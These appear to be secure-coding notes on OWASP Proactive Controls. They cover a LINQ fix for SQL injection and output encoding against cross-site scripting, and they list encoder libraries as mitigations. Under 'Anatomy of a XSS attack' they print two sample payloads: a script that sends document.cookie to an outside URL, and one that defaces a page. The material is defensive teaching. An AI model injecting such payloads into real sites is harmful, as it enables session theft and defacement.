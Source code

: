 ```csharp
#Another way to fix the sql injection issue in DotNet
#region Better - Use LINQ
var blogPosts = db.BlogPosts.Include(b => b.User).Where(p => p.Post.Contains(searchString));
#endregion Better - Use LINQ
```

## Proactive Control 3: Encode Data

- Any time you accept data from the user on a web page it has the potential to be executed as script on the web page
- If you put the data in a script tag and submit it then it is treated as executable code
- Attacker can have access to a cookie or it could make calls out to other sites if some restrictions aren’t in place or it can deface your web site.

- Encode data before use in a parser (JS, CSS, XML)
- Addresses the following Top 10 Risks:
    - A1 - Injection (in part) (OWASP Top 10 2013)
    - A3 - Cross Site Scripting (XSS) (in part) (OWASP Top 10 2013)
    - M7 - Client Side Injection (OWASP Top 10 2014)

### Anatomy of a XSS attack

🎯 **************Attack1: cookie theft**************

```jsx
<script>
var badURL='https://owasp.org/somesite/data=' + document.cookie;
var img = new Image();
img.src = barURL;
</script>
```

🎯 **************Attack2: Web site defacement**************

```jsx
<script>document.body.innerHTML='<blink>GO OWASP</blink>'</script>
```

❌ **The Problem**

- Web page vulnerable to XSS

✅ ****************The Solution****************

- OWASP Java Encoder Project
- OWASP Java HTML Sanitizer Project
- Microsoft Encoder and AntiXSS Library

********Microsoft Encoder and AntiXSS Library********

- System.Web.Security.AntiXSS
- Microsoft.Security.Application.AnitXSS
- Can encode for HTML, HTML attributes, XML, CSS and Javascript
- Native .NET Library
- Very powerful well written library
- For use in your User Interface code to defuse script in output
